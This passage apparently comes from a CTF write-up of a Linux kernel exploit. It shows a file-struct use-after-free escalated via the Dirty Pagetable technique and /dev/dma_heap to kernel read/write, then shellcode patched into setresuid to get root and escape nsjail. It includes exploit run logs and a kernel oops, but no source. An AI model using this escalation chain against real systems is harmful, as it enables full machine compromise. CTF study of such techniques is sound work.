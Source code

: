 I could sucessfully identify the uaf'ed `file` struct and even overlap with user data:
```
/tmp $ /exp/exp 
[*] device fd: 3
[*] before uaf trigger
[*] triggered free
write: Bad file descriptor
[*] overlap idx: 1586
[*] overlapping done
[*] trigger rip
[    4.364698] general protection fault, probably for non-canonical address 0x41414141414141b9: 0000 [#1] PREEMPT SMP PTI
[    4.365244] CPU: 1 PID: 157 Comm: exp Tainted: G           OE      6.1.110 #12
[    4.365244] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.15.0-1 04/01/2014
[    4.365244] RIP: 0010:filp_close+0x1e/0x70
[    4.365244] Code: 00 48 83 c7 10 e9 a2 94 04 00 66 90 0f 1f 44 00 00 41 55 41 54 49 89 f4 55 48 8b 47 38 48 8b 77 28 48 85 c0 0f 84 7e 40 e1 00 <48> 8f
[    4.365244] RSP: 0018:ffffaca3c0483f00 EFLAGS: 00000206
[    4.365244] RAX: 4141414141414141 RBX: 0000000000000000 RCX: 0000000000000000
[    4.365244] RDX: 0000000000000001 RSI: 4141414141414141 RDI: ffff910896633200
[    4.365244] RBP: ffffaca3c0483f48 R08: ffff91089fa88000 R09: 0000000035593770
[    4.365244] R10: 0000000000000636 R11: 0000000000000000 R12: ffff91088da9eec0
[    4.365244] R13: 0000000000000000 R14: 0000000000000000 R15: 0000000000000000
[    4.365244] FS:  00000000355923c0(0000) GS:ffff91089ef00000(0000) knlGS:0000000000000000
[    4.365244] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    4.365244] CR2: 0000000000712334 CR3: 000000000db0e000 CR4: 00000000003006e0
```
now we theoretically have rip control, but we're missing kernel heap and `text` leaks. this
was the point where I scrapped the idea of getting rip control with `f_op`.

however then I found out about a [blogpost](https://ptr-yudai.hatenablog.com/entry/2023/12/08/093606#Dirty-Pagetable) from ptr-yudai. basically we are elevating our
`file` uaf to a pagetable uaf to create overlapping pages. also there comes `/dev/dma_heap`
into play, which helps us to get a physical kernel address r/w. as soon as we achieve this,
we can just write our shellcode to a kernel function.

in my exploit, I chose `setresuid` to overwrite. in our shellcode we need to get root as well 
as escaping the nsjail. this worked flawlessly thanks to the inspiration from ptr-yudai.
we get the flag and win:
```
/tmp $ /exp/exp 
[*] device fd: 3
[*] before uaf trigger
[*] triggered free
write: Bad file descriptor
[*] overlap idx: 1793
[*] overlapping done
[*] doing pte spray
[*] dma_buf_fd: 5
[*] doing pte spray done
[*] corrupt pte entry
[*] searching for overlapping page
[*] found overlapping page: 0xf2427000
[*] remapping...
[*] corrupt pte entry again
[*] dma buffer contains: 0x8000000012676867
[*] dma buffer contains: 0x800000000009c067
[*] found victim page table: 0xeea00000
[*] physical kbase: 0xb000000
[*] dma buffer contains: 0x800000000b1af067
[*] uid: 0
[*] win!
flag{1337}
[*] done
```